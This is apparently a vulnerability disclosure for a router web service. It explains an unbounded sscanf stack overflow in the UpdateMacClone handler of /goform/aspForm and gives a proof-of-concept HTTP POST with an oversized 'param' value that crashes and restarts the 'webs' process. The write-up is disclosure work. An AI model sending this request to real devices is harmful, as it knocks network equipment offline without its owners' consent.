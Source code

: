 ## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `UpdateMacClone`, the program will go into the following handling function.

![image-20230610002554113](assets/image-20230610002554113.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v9` on the stack. The parameter `%s` of `sscanf` didn't limit the copy length.

![image-20230610002626040](assets/image-20230610002626040.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateMacClone&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

## Result

the process `webs` restart

![image-20230610124202610](assets/image-20230610124202610.png)
